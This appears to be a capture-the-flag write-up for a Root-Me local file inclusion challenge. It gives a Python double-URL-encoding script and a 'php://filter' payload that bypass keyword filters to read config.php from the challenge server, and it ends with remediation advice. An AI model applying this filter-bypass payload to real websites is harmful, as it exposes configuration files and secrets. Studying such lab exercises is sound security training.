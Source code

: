 ## Root-Me.org Challenge Write-Up: Local File Inclusion - Double Encoding
`https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding?lang=en`

**Challenge Description:** This challenge tasks us with exploiting a Local File Inclusion (LFI) vulnerability to read a sensitive file (likely `config.php`). However, the application employs filters to prevent straightforward attacks.  The key to success lies in understanding and applying a non-standard double-encoding technique. 

**Understanding the Vulnerability:**

The application uses a URL parameter (e.g., `page`) to dynamically include files. This parameter is vulnerable to LFI, allowing attackers to potentially access sensitive files outside the intended webroot. 

**The Challenge of Filters:**

The application's filters block common LFI payloads, including those using the `php://filter` wrapper.  Standard double URL encoding also fails because the filters likely detect patterns like `php`, `filter`, and `base64`.

**Unraveling the Custom Encoding:**

Through careful analysis and experimentation, we've discovered a unique encoding scheme that successfully bypasses the filters. This scheme involves:

1. **Initial URL Encoding:** First, the entire payload is URL encoded using the standard `urllib.parse.quote` function in Python. 

2. **Selective Double Encoding:** Then, specific characters are double URL encoded. The characters that require double encoding are:

   -  `.` (dot): Encoded as `%252E`
   -  `/` (forward slash):  Initially encoded using `urllib.parse.quote_plus` (which encodes spaces as `+` instead of `%20`), resulting in `%2F`, and then the "%" is encoded again.
   -  `-` (hyphen): Encoded as `%252D`
   -  `%` (percent sign):  Initially encoded using `urllib.parse.quote_plus`, resulting in `%25`, and then the "%" is encoded again.

**The Python Script:**

The following Python script performs the custom double encoding:

```python
import urllib.parse
import sys

def custom_encode(payload):
    """
    Applies custom double URL encoding, handling '.', '/', '-', and '%'.
    """

    encoded_payload = ""
    for char in payload:
        if char == '.':
            encoded_char = "%252E" 
        elif char == '-':
            encoded_char = '%252D'
        elif char in '%/':
            encoded_char = urllib.parse.quote_plus(char)    
        else:
            encoded_char = urllib.parse.quote(char)  
        encoded_payload += encoded_char

    # Double-encode all '%' symbols
    double_encoded_payload = ""
    for char in encoded_payload:
        if char == '%':
            double_encoded_payload += urllib.parse.quote(char) 
        else:
            double_encoded_payload += char

    return double_encoded_payload

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 encoder.py <payload>")
        sys.exit(1)

    payload = sys.argv[1]
    encoded_payload = custom_encode(payload)
    print(f"Encoded payload: {encoded_payload}")

if __name__ == "__main__":
    main()
```

**Exploitation Steps:**

1. **Encode the Payload:** Use the Python script to encode the following payload:

   ```
   php://filter/convert.base64-encode/resource=config.php
   ```

2. **Construct the Exploit URL:** Inject the encoded payload into the vulnerable URL parameter:

   ```
   http://challenge01.root-me.org/web-serveur/ch45/index.php?page=[encoded_payload]
   ```

3. **Retrieve and Decode the Response:** The server's response will contain the Base64-encoded content of `config.php`. Decode it to retrieve the sensitive information.

**Why This Encoding Works:**

This unusual encoding scheme likely bypasses the filters because:

- **Pattern Obfuscation:** By selectively double-encoding specific characters, the script breaks up recognizable patterns like "php://" and "base64", which the filters might be looking for.
- **Multiple Decoding Passes:** The server might apply multiple URL decoding passes, allowing the payload to be successfully decoded despite the initial obfuscation.

**Remediation:**

- **Sanitize Input Carefully:** Implement robust input sanitization techniques that go beyond basic URL decoding. Consider using a whitelist approach to restrict allowed characters.
- **Avoid Dynamic File Inclusion:**  Use static includes whenever possible to minimize the risk of LFI.
- **Utilize a Web Application Firewall (WAF):**  A WAF can help detect and block malicious patterns in web requests, including those attempting to exploit LFI.

**Lessons Learned:**

- **Encoding Tricks:** Attackers often use creative encoding techniques to bypass security filters.
- **Defense in Depth:**  Multiple layers of security are crucial to protect against a wide range of attack vectors.
- **Constant Learning:**  The landscape of web security is constantly evolving. Stay updated on the latest threats and mitigation techniques.
